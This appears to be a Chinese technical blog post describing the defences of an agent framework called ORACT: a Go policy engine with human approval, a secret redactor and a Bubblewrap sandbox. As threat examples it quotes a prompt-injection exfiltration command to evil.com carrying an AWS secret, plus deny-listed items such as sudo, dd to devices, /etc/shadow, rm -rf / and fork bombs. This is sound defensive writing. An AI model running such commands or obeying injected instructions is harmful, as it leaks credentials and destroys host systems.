


**TL;DR：** 当自主 Agent 获得执行 Shell 命令、调用数据库和读写工作区文件的能力时，它就成为了系统中最高危的攻击面。恶意 Prompt 注入（Prompt Injection）随时可能诱骗模型输出形如 `curl evil.com?leak=$AWS_SECRET_ACCESS_KEY` 的恶意指令。ORACT 在安全架构中建立了三道不可逾越的纵深防线：基于 Go 原生实现的 **Policy 最小权限策略引擎**、在 I/O 边界实施自动扫描擦除的 **Secret Redactor 动态脱敏器**、以及通过 Linux 命名空间构建物理无网只读沙箱的 **Bubblewrap 进程隔离执行器**。

---

## 一、威胁建模：Agent 系统的三大致命漏洞



1. **越权执行（Privilege Escalation）**：模型被诱导执行未授权的危险命令（如删除主库、修改用户权限表）；
2. **凭据外泄（Secret Exfiltration）**：大模型读取了含有 API Key 或数据库密码的文件，并试图通过网络工具外发给攻击者服务器；
3. **宿主机逃逸与破坏（Host Destruction）**：恶意代码在宿主机启动 Fork 炸弹或修改系统内核参数导致服务器瘫痪。

---

## 二、防线一：Policy 策略评估与动态 Approval

ORACT 在 `security/policy` 模块中实现了一套基于声明式规则的零信任策略引擎。

### 2.1 最小权限策略模型

每次工具执行前，Policy 引擎会对 `(Principal, ToolName, Action, TargetResource)` 进行四元组精确判定：

```go
// security/policy/policy.go 策略决策模型
package policy

type Decision string

const (
    DecisionAllow   Decision = "ALLOW"
    DecisionDeny    Decision = "DENY"
    DecisionApprove Decision = "REQUIRE_APPROVAL"
)

type PolicyEvaluator interface {
    Evaluate(ctx context.Context, inv ToolInvocation) (Decision, string, error)
}
```

- **ALLOW（放行）**：只读安全操作（如 `git status`, `read_file` 命中白名单工作区）；
- **DENY（拒绝）**：严令禁止的高危操作（如包含 `sudo`, `dd of=/dev/*` 或访问 `/etc/shadow`）；
- **REQUIRE_APPROVAL（人机确认）**：写操作与外部网络请求，自动向控制面发射审批事件，挂起当前协程等待人工授权。

---

## 三、防线二：Secret Broker 与流式动态脱敏

敏感凭据（如数据库密码、GitHub Token）绝不能以明文形式暴露给大模型上下文或写入普通日志。

ORACT 设计了 **Secret Broker（凭据中介）** 与 **Secret Redactor（流式脱敏器）**：



### 3.1 Go 语言高性能流式脱敏实现

```go
// security/secret/redactor.go 高性能 Aho-Corasick 多模式串脱敏
package secret

type Redactor struct {
    patterns []string
    mask     string
}

func (r *Redactor) RedactBytes(input []byte) []byte {
    output := input
    for _, secret := range r.patterns {
        if len(secret) == 0 {
            continue
        }
        output = bytes.ReplaceAll(output, []byte(secret), []byte(r.mask))
    }
    return output
}
```

无论工具执行的输出中包含了多少明文敏感信息，在进入 Journal 落盘与大模型上下文投影之前，全部被强制替换为 `[REDACTED_SECRET]`，彻底切断外泄通道。

---

## 四、防线三：Linux Bubblewrap 原生沙箱隔离

对于任意代码和命令执行，ORACT 在 Linux 环境下原生集成了 **Bubblewrap (`bwrap`)**，通过内核级 Namespaces 与 cgroups 进行物理隔离。

### 4.1 Go 原生沙箱执行器实现

```go
// sandbox/bubblewrap/runner_linux.go
package bubblewrap

func (r *Runner) BuildCommand(ctx context.Context, spec SandboxSpec) (*exec.Cmd, error) {
    args := []string{
        "--unshare-all",          // 隔离 IPC, PID, UTS 等所有命名空间
        "--die-with-parent",      // 主进程销毁时子进程同步自毁
        "--ro-bind", "/usr", "/usr", // 系统程序只读
        "--ro-bind", "/lib", "/lib",
        "--ro-bind", "/lib64", "/lib64",
        "--dir", "/tmp",          // 私有隔离 /tmp
        "--bind", spec.WorkDir, spec.WorkDir, // 仅放开工作区读写
    }

    if !spec.AllowNetwork {
        args = append(args, "--unshare-net") // 物理切断网络 Stack
    }

    args = append(args, "--", spec.Command)
    args = append(args, spec.Args...)

    cmd := exec.CommandContext(ctx, "bwrap", args...)
    return cmd, nil
}
```

即使大模型被恶意 Prompt 注入并执行了 `rm -rf /` 或启动 Fork 炸弹，由于系统根目录是只读挂载且受 cgroups 进程数硬上限限制，恶意行为会被 Linux 内核直接拦截阻断。

---

## 五、架构启示与工程收获

1. **默认拒绝，最小授权**：不要假设大模型永远理性；所有的系统能力在未经显式策略放行前，默认必须处于拒绝或人机审批状态；
2. **脱敏必须发生在持久化之前**：安全脱敏不能只在前端渲染时做遮掩，必须在事件落盘（写入 Journal）的第一道门禁处实施物理清洗；
3. **依靠操作系统内核做硬防护**：应用层的关键词黑名单注定被混淆绕过；唯有利用 Linux 命名空间与只读沙箱，才能构建坚不可摧的底层安全底座。

---

## 六、参考资料与延伸阅读

1. [OWASP Top 10 for Large Language Model Applications](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
2. [Bubblewrap: Unprivileged Sandboxing Tool (GitHub)](https://github.com/containers/bubblewrap)
3. [ORACT Security & Sandbox 子系统源码](https://github.com/MoreConsequence/oract/tree/main/security)
